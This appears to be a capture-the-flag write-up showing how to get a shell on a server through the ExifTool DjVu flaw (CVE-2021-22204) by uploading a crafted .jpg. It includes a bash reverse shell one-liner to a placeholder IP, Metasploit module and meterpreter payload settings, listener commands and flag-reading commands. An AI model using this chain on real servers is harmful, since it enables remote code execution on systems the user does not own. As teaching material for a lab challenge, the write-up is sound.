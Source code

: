 Step-by-Step Solution

 Step 1: Initial Observations

Upload a basic image and observe that the server extracts metadata (using ExifTool). Try uploading a renamed `.txt` file or a malformed image — if it still processes them, that’s a big clue that file type validation is weak.

 Step 2: Research the Vulnerability

A quick search for “ExifTool image vulnerability” or “ExifTool exploit” leads to:

> **CVE-2021-22204**: A vulnerability in ExifTool’s DjVu file parser that allows arbitrary code execution via crafted metadata.

This means: if you create a malicious DjVu file (even renamed as `.jpg`), you can get the server to run any shell command.

 Step 3: Craft a Malicious DjVu File

There are three common approaches for generating a payload file. However, reverse shells require a public IP which isn't available to most players, so Option A is recommended.

Option A:

1. Find a CVE proof-of-concept like https://github.com/convisolabs/CVE-2021-22204-exiftool
2. Modify it to generate custom payloads, like `ls /` and `cat /flag.txt`
3. Upload the custom payloads to find and read the flag

 Option B: Manually Embed a Bash Reverse Shell

Use a known one-liner like:

```bash
bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'
```

Use a DjVu file with a `metadata=` field containing the command above. You can create one using tools like [djvumake](https://djvu.sourceforge.net/) or use crafted samples from exploit repositories.

 Option C: Use Metasploit

Metasploit provides an automated way to generate a malicious DjVu file with any payload:

```bash
msfconsole
```

Then:

```bash
use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection
set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT 4444
run
```

This generates a malicious `.jpg` file that exploits the vulnerability.


 Step 4: Start a Listener

Depending on the payload:

* For a Bash shell:

  ```bash
  nc -lvnp 4444
  ```

* For a Meterpreter shell:

  ```bash
  use exploit/multi/handler
  set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
  set LHOST <your IP>
  set LPORT 4444
  run
  ```

 Step 5: Upload the File

Upload your crafted `.jpg` file through the web interface. If successful, ExifTool processes the file and executes your command — giving you a shell on the server.


 Step 6: Retrieve the Flag

In your shell or Meterpreter session, look for the flag:

```bash
find / -name flag.txt 2>/dev/null
```

Then:

```bash
cat /flag.txt
```
